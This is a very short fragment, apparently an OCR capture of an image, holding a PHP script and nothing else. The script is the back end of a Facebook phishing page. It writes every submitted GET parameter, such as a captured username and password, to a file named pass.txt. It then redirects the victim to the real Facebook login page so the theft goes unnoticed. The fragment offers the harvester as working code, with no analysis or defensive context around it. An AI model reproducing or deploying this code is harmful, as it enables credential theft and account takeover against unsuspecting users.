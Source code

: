 &amp;lt;?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&amp;gt; $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&amp;gt;
